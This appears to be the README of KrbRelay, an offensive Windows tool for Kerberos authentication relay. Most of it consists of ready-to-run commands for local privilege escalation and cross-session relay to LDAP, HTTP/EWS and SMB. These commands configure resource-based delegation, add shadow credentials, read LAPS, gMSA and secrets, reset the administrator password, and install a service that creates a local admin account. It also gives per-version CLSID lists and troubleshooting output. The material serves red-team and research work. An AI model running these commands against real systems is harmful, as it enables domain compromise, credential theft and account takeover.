 # KrbRelay

Relaying 3-headed dogs.
More details at https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html and https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html

This should be working on most fully patched Windows systems. There may be difficulties with Server OS in lab environments because of the firewall blocking the OXID resolver however, this will most likely not be an issue during real life engagements, same goes for CLSIDs.

![image-20220213094644590](Images/image-20220213094644590.png)

### Supported Protocols and Features

Some protocols are more completed than others, PR's are welcomed. 

* LLMNR

* LDAP/LDAPS
* HTTP
  * EWS
* SMBv2
* RPC over SMB
  * MS-SAMR
  * MS-SCMR
  * MS-RPRN
  * MS-RRP
  * MS-LSAT/MS-LSAD

### Examples

````
# LPE
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred

# Cross-Session LDAP
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606 win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember srv_admins domain_user
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -laps
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -gmsa
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -reset-password administrator Password123!

# Cross-Session HTTP
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-search beta,test
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-delegate domain_user@htb.local
.\KrbRelay.exe -spn http/win2016.htb.local -endpoint iisstart.htm -proxy -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182

# Cross-Session SMB
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -console
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-privileges (([System.Security.Principal.WindowsIdentity]::GetCurrent()).User.Value)
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -secrets 
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -service-add addUser "C:\windows\system32\cmd.exe /c """"C:\windows\system32\net user cube Password123! /add && C:\windows\system32\net localgroup administrators cube /add"""""

# LLMNR
.\KrbRelay.exe -llmnr -spn 'cifs/win2019.htb.local' -secrets
````

 `CheckPort.exe` is a C# tool that can be used to discover available ports for the OXID resolver.

```
C:\Users\domain_user\Desktop\KrbRelay\CheckPort\bin\Release\CheckPort.exe
[*] Looking for available ports..
[*] Port: 1024 is available
```



## CLSIDs

We'll need to unmarshal our OBJREF inside of a process that would allow authentications over the network, this can be verified by looking at the `Impersonation Level` 

* RPC_C_IMP_LEVEL_DEFAULT			 # Will not work
* RPC_C_IMP_LEVEL_ANONYMOUS    # Will not work
* RPC_C_IMP_LEVEL_IDENTIFY             # Works for LDAP
* RPC_C_IMP_LEVEL_IMPERSONATE   # Required for SMB
* RPC_C_IMP_LEVEL_DELEGATE

When relaying to LDAP or any other service that has signing enabled but not enforced we would also need to verify that the `Authentication Level` of the process is set to `RPC_C_AUTHN_LEVEL_CONNECT`.

Processes running under `NT Authority\Network service` will use the SYSTEM account when authenticating over the network.

Tool for discovering CLSIDs: https://github.com/tyranid/oleviewdotnet

```powershell
Import-Module .\OleViewDotNet.psd1
Get-ComDatabase -SetCurrent
$comdb = Get-CurrentComDatabase
$clsids = (Get-ComClass).clsid
Get-ComProcess -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' | select ProcessId,ExecutablePath,Name,AppId,User,AuthnLevel,ImpLevel
```



#### Windows 10 1903

```
# SYSTEM Relay
0bae55fc-479f-45c2-972e-e951be72c0c1 # RPC_C_IMP_LEVEL_IDENTIFY
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE 

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE 
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE 
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE 
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE 
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE 
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2019
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
354ff91b-5e49-4bdc-a8e6-1cb6c6877182 # RPC_C_IMP_LEVEL_IMPERSONATE 
38e441fb-3d16-422f-8750-b2dacec5cefc # RPC_C_IMP_LEVEL_IMPERSONATE 
f8842f8e-dafe-4b37-9d38-4e0714a61149 # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2016
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE
5f7f3f7b-1177-4d4b-b1db-bc6f671b8f25 # RPC_C_IMP_LEVEL_IMPERSONATE
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE
98068995-54d2-4136-9bc9-6dbcb0a4683f # RPC_C_IMP_LEVEL_IMPERSONATE
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE
bdb57ff2-79b9-4205-9447-f5fe85f37312 # RPC_C_IMP_LEVEL_IMPERSONATE
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE
```



## Error codes

Doesn't work the first time? try again then check these error codes, and if you are going to open an Issue, please paste the full output.

#### Firewall blocking the OXID resolver

```
System.Runtime.InteropServices.COMException (0x800706BA): The RPC server is unavailable. (Exception from HRESULT: 0x800706BA)
```
#### Bad CLSID

```
System.Runtime.InteropServices.COMException (0x80080004): Bad path to object (Exception from HRESULT: 0x80080004 (CO_E_BAD_PATH))
```
#### Kerberos Issues (Authentication type not recognized), Will work after reboot/clock sync

```
System.Runtime.InteropServices.COMException (0x800706D3): The authentication service is unknown.
```

#### Parsing Error, valid apRep tickets starts with 6f

```
[*] apRep1: fe534d4240000100160000c00100010001000000000000000100000000000000000000000000000035000000006c0000000000000000000000000000000000000900000048006000605e06092a864886f71201020203007e4f304da003020105a10302011ea411180f32303232303230373134303935325aa5050203045ad0a603020121a90b1b094854422e4c4f43414caa153013a003020101a10c300a1b0877696e3230313624
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```

#### CLSID impersonation level or authentication level too low

```
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```



### Acknowledgements

* [Vletoux ](https://twitter.com/mysmartlogon) for starting [RPCForSMBLibrary](https://github.com/vletoux/RPCForSMBLibrary)
* [James Forshaw](https://twitter.com/tiraniddo) for introducing Kerberos relaying and [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet)
* [TalAloni](https://github.com/TalAloni/) for [SMBLibrary](https://github.com/TalAloni/SMBLibrary)
* [MichaelGrafnetter](https://twitter.com/mgrafnetter) for [DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
* [Kevin Robertson](https://twitter.com/kevin_robertson) for [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
